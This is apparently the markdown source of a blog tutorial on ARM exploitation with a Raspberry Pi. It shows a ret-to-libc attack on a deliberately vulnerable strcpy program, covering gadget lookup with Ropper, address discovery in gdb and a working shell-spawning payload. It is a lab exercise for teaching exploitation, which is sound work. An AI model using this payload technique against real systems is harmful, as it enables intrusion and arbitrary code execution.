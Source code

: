 ```yaml
---
layout: single
title: "ARM Exploitation with Raspberry Pi: ARM Ret-to-Libc"
header:
  image: "https://live.staticflickr.com/65535/49851551351_6288c3f55a_z.jpg"
  teaser: "https://live.staticflickr.com/65535/49851551351_6288c3f55a_z.jpg"
categories:
  - Security
tags:
  - Exploitation
  - Tutorial
  - ARM
  - Ret-to-libc
  - Buffer Overflow
  - Raspberry Pi
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```



In this post we will learn how to exploit a vulnerable `C` program using `ret-to-libc`.

Before proceeding, you can read the previous posts:

[ARM Exploitation with Raspberry Pi: Lab Setup](https://shantoroy.com/security/ARM-exploitation-Raspberry-Pi-lab-setup/)

[ARM Exploitation with Raspberry Pi: Basic Stack Overflow](https://shantoroy.com/security/ARM-exploitation-raspberry-pi-stack-overflow/)

[ARM Exploitation with Raspberry Pi: Return Back to Program without Crashing](https://shantoroy.com/security/avoid-segmentation-fault-return-from-shellcode/)

## Vulnerable Program
We will use the following vulnerable program to exploit using `ret-to-libc`.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```
## Payload Structure
We will use the following gadget
```
POP {R0, R4, PC} 
```

As we have 100 B buffer size, we will have the return address at starting at 105th position. So, we will fill the first 104 Bytes with any character or NOP sled. Here, the example payload looks like as follows:
```
payload = 104 B NOP/Char + Gadget Address + R0 Value + R4 Value + PC value 
```

Now, we will put the address of **`/bin/sh`** in `R0` and the address of `system()` function in `PC`. Here, R4 value is not important and we will put junk value there. This means we will execute the shell using system().

Now, the payload is complete:
```
payload = 104 B NOP + POP instr. Address + /bin/sh address + "JUNK" + system() address
```


## Find Addresses
### Find Base Address
Now, we need to find out the shared library dependency for a particular executable of a vulnerable program,

```bash
$ ldd ./overflow
	linux-vdso.so.1 (0x76ffd000)
	/usr/lib/arm-linux-gnueabihf/libarmmem.so (0x76fb8000)
	libc.so.6 => /lib/arm-linux-gnueabihf/libc.so.6 (0x76e79000)
	/lib/ld-linux-armhf.so.3 (0x76fce000)
```

**Note**: For larger/complex program the output is much longer. In that case, it is better to filter using `grep`.

```bash
$ ldd ./overflow | grep "libc.so.6"
    libc.so.6 => /lib/arm-linux-gnueabihf/libc.so.6 (0x76e47000)
```
The base address is required to obtain the final address of the gadgets.


### Address of POP instruction
We are using the `Raspbian Buster`, the gcc version is now $8$.

Now, to find the new address we use [Ropper](https://github.com/sashs/Ropper). Let's first install the Ropper by installing particular frameworks using following commands:

```bash
pi@raspberry:~$ sudo pip install capstone
pi@raspberry:~$ sudo pip install filebytes
pi@raspberry:~$ sudo pip install keystone-engine
```

Now, let's install Ropper:
```bash
pi@raspberry:~$ git clone https://github.com/sashs/Ropper.git
pi@raspberry:~$ cd Ropper
pi@raspberry:~$ python setup.py install
pi@raspberry:~$ ropper
```

We can also use the `Ropper.py` file directly. Now, let's find the gadget address using the following command:
```bash
pi@raspberry:~$ ./Ropper.py --file /lib/arm-linux-gnueabihf/libc.so.6 --search "pop {r0, r4, pc}"

    [INFO] Load gadgets for section: LOAD
    [LOAD] loading... 100%
    [LOAD] removing double gadgets... 100%
    [INFO] Searching for gadgets: pop {r0, r4, pc}
    
    [INFO] File: /lib/arm-linux-gnueabihf/libc.so.6
    0x000791fc: pop {r0, r4, pc};
```



We need check it again using `gdb` [Not necessary, we got our address.]
```bash
pi@raspberry:~$ gdb -q /lib/arm-linux-gnueabihf/libc.so.6
(gdb) x/i 0x000791fc
   0x791fc <memmove+236>:	pop	{r0, r4, pc}
```

Now, we  will add the address with the **base address**-

```bash
pi@raspberrypi:~$ python3
Python 3.7.3 (default, Dec 20 2019, 18:57:59) 
[GCC 8.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>>
>>> hex(0x76e47000+0x000791fc)
'0x76ec01fc'
>>> 
```
So, finally we have our required final address of the gadget for the target program.



### Address of System()
Let's find the address of the system using `gdb`:
```bash
$ gdb -q ./overflow
    GEF for linux ready, type `gef' to start, `gef config' to configure
    79 commands loaded for GDB 7.12.0.20161007-git using Python engine 3.5
    [*] 1 command could not be loaded, run `gef missing` to know why.
    Reading symbols from ./overflow...(no debugging symbols found)...done.
    gef->  break main
    Breakpoint 1 at 0x104fc
    gef->  run
    Starting program: /home/pi/overflow
    .......................................
    .......................................
    
    gef->  print system
    $1 = {int (const char *)} 0x76e7f9c8 <__libc_system>
```

### Address of `/bin/sh`
We can retrieve the address of `/bin/sh` in the same way inside `gdb`
```
    gef> find &system,+9999999,"/bin/sh"
        
        0x76f72b6c
warning: Unable to access 16000 bytes of target memory at 0x76f82574, halting search.
1 pattern found.
```
So, the final address is : `0x76f72b6c`


## Final Payload
The padding should be upto the byte before return address starts. For example in our testbed we used 100 char arrays. Therefore, the return address should start from $105^{th}$ position and the padding should be 104 character or similar size of NoP sled.

Note that, the addresses should be in `Little Endian` order.
```bash
$ ./overflow $(python -c 'print "A"*104+"\xfc\x01\xec\x76"+"\x6c\x2b\xf7\x76"+"JUNK"+"\xc8\xf9\xe7\x76"')
```
So, the output will look like as follows:
```bash
pi@raspberrypi:~/test$ ./overflow $(python -c 'print "A"*104+"\xfc\x01\xec\x76"+"\x6c\x2b\xf7\x76"+"JUNK"+"\xc8\xf9\xe7\x76"')

$ ls
overflow  overflow.c
$ pwd
/home/pi/test
$ 
```
Bingo!!!
Have fun!!! 





<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE3NjAyMDk3MjIsMTY2NjM0Mjg5Niw1Nz
I1NDczODYsLTUyODY0NTk0Myw5NjU0MTY5NDksMTc0NzY1NjQz
MywtMTY2MjAyMDAyMiwxNzU4NDQyNjIxLDgyNzk0MTAxLC0zMj
k5Mzc5NDIsOTc5ODg2OTg1XX0=
-->